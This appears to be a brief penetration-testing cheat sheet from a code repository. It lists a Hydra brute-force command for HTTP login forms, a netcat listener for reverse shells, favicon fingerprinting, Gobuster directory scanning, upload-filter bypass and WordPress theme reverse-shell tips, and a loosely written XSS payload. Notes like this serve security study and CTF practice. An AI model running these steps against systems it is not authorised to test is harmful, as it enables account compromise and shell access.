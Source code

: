## Hydra
  hydra -l username -P passwordlist.txt -s PORT IP http-post-form 'referurl:postbody^user^&^password:Error message'

## Netcat listener
  nc -nlvp PORT
  

## ICO
  * Identify a website framework from its ICO
  * curl ICO | md5sum
  * [OWASP ICO](https://wiki.owasp.org/index.php/OWASP_favicon_database)


## Gobuster
  * gobuster dir -u URL -w Wordlist(seclists/discovery/common is a good list) 

## Uploads
  * .phtml can bypass upload filters if the admin did not implement a proper upload check(Must be a php application)
  * [Wordpress uploads](https://www.hacknos.com/wordpress-shell-upload/)
  * If you have access to a wordpress administrator panel it is possible to upload a reverse shell via upload themes. The url schema is:
  * http(s)://IP/wp-content/uploads/year/day/filename

## XSS
* When testing payloads for XSS you can close the tag Hello <p div="name-return">Name Goes here</p>
* <fakeTag> </fakeTag>insert XSS payload. Example payload = </fakeTag>script alert('XSS?');script

